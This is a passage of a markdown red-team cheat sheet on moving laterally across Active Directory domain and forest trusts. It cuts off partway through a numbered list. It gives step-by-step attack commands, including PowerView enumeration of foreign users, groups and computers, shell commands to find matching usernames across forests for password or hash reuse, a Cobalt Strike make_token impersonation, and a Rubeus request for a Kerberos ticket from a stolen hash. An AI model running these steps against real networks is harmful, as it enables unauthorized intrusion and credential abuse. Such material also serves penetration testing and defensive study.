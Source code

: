 ##### _Cross domains without DA level access:_
There are also other means which do not require DA in the child domain\. These methods are very similar as the techniques discriped below to cross a forest security boundary\. 
- Kerberoast and ASREProast across domain trusts
- If accounts from another domain have access to systems in the current domain, you can:
	- Capture their TGT if the system they logon to is configured for unconstrained delegation\.
	- Coerce a high privileged computer to authenticate to a owned computer in the current domain that is configured for unconstrained delegation\.
	- Impersonate any process \(e\.g\. from RDP session\) that the target user has running on the  system\. 
- Look for users that have an account \(with the same username\) in both domains and try to reuse that password/hash\. 
- Enumerate users who are in groups outside of the current domain \-but within the current forest\- and may have some kind of outsite access \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-DomainForeignUser`


---
### __Expand access to a domain in an external forest with one\-way inbound/bidirectional trust:__
In contrast to an intra\-forest trust \(every domain in the current forest\), an inter\-forest trust \(multiple forests\) is a security boundary that should block lateral movement between forests\. Therefore, it is only possible to perform actions in the target forest, if one of the below techniques can be successfully leveraged\.

##### _Cross security boundary via user account/password reuse:_
Look for users that have an account \(with the same username\) in both forests and try to reuse the password\. 
- 1\. Request list of all users in the current and target domain \(specify ‘/domain’ option for the target domain\) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-DomainUser (-Domain <FQDN target domain>) -Properties samaccountname |Out-File -encoding ascii users.txt`
- 2\. Download both user lists to the local Linux machine and filter matching user names: 
	- 1\. Create for both downloaded lists and clean version \(manually delete lines etc\.\): `cat users.txt | tr -d " " | sort > users1.txt`
	- 2\. Compare both files and return matches: `comm -12 users1.txt users2.txt`
- 3\. For the matching users, try password/hash reuse in the target domain\. 

##### _Cross security boundary via user/group relationships:_
Find relationships that cross the mapped trust boundaries by enumerating any users/groups/computers in one domain that can access resources in the other domain\. 
- 1\. Enumerate any groups that contain users outside of its own domain and return its members \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-DomainForeignGroupMember -Domain <target FQDN>`
- 2\. Convert the SID from the returned ‘MemberName’ field in the current domain \(PowerView\): `ConvertFrom-SID <SID MemberName field>`
- 3\. List computers in the foreign domain \(PowerView\): `Get-DomainComputer -Domain <FQDN target domain> -Properties DNSHostName`
- 4\. Enumerate any local group membership of these computers and check if they are a member of an identified group that can cross the forest boundary \(PowerView\): `Get-NetLocalGroupMember -ComputerName <FQDN target computer>`
- 5\. List members of the indentified group within the current domain and check what privileges they have in the foreign domain \(PowerView\): `Get-DomainGroupMember -Identity "<group name>" | select MemberName`
- 6\. Impersonate the identified user that can access resources in the foreign domain:
	- If cleartext password is known for CS \(make sure you are in a global writeable directory\): `make_token <domain>\<target user> <password>`
	- If NTLM or AES hash is known: 
		- 1\. Request TGT \([Rubeus](https://github.com/GhostPack/Rubeus)\): `Rubeus.exe asktgt /user:<target user> /domain:<FQDN current domain> /aes256:<hash> /opsec /nowrap`